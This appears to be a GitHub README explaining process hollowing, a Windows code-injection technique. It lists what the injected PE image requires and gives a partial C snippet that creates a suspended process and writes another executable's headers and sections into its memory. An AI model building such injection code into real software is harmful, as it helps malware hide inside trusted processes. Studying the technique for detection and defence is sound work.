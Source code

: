 ## Process Hollowing

So, Process hollowing is a technique that begins with the creation of a new instance of a legitimate process in a suspended state, The suspended state allows the injected code to be executed within the context of this process. 

To successfully perform process hollowing, the source image (the executable being injected into the legitimate process) must meet specific requirements and characteristics to ensure that the technique works effectively. These requirements include:

1. **PE Format:** The source image must be in the Portable Executable (PE) format, which is the standard executable file format on Windows. This format includes headers and sections that define the structure of the executable.
2. **Executable Code:** The source image should contain executable code that can be run by the Windows operating system. This code is typically located within the `.text` section of the PE file.
3. **Address of Entry Point:** The PE header of the source image must specify the address of the entry point, which is the starting point for the execution of the code. The address of the entry point is used to set the `EAX` register in the context of the suspended process.
4. **Sections and Data:** The source image should contain necessary sections, such as the `.text` section for code and other sections for data. These sections should be properly defined in the PE header, and the data should be accessible and relevant to the code's execution.
5. **Relocation Table:** The source image may have a relocation table that allows it to be loaded at a different base address. If the source image lacks a relocation table, it may only work if it can be loaded at its preferred base address.

Creating The Process The target process must be created in the suspended state, The code aims to create a new instance of a process in a suspended state and subsequently replace its code and data with the code and data from another executable (the source image), which includes creating a suspended process and performing memory operations to load the new image.

```c
// Create a new instance of current process in suspended state, for the new image.
if (CreateProcessA(path, 0, 0, 0, false, CREATE_SUSPENDED, 0, 0, &SI, &PI)) 
{
    // Allocate memory for the context.
    CTX = LPCONTEXT(VirtualAlloc(NULL, sizeof(CTX), MEM_COMMIT, PAGE_READWRITE));
    CTX->ContextFlags = CONTEXT_FULL; // Context is allocated

    // Retrieve the context.
    if (GetThreadContext(PI.hThread, LPCONTEXT(CTX))) //if context is in thread
    {
        pImageBase = VirtualAllocEx(PI.hProcess, LPVOID(NtHeader->OptionalHeader.ImageBase),
            NtHeader->OptionalHeader.SizeOfImage, 0x3000, PAGE_EXECUTE_READWRITE);

        // File Mapping
        WriteProcessMemory(PI.hProcess, pImageBase, Image, NtHeader->OptionalHeader.SizeOfHeaders, NULL);
        for (int i = 0; i < NtHeader->FileHeader.NumberOfSections; i++)
            WriteProcessMemory
            (
                PI.hProcess, 
                LPVOID((size_t)pImageBase + SectionHeader[i].VirtualAddress),
                LPVOID((size_t)Image + SectionHeader[i].PointerToRawData), 
                SectionHeader[i].SizeOfRawData, 
                0
            );
    }
}
```
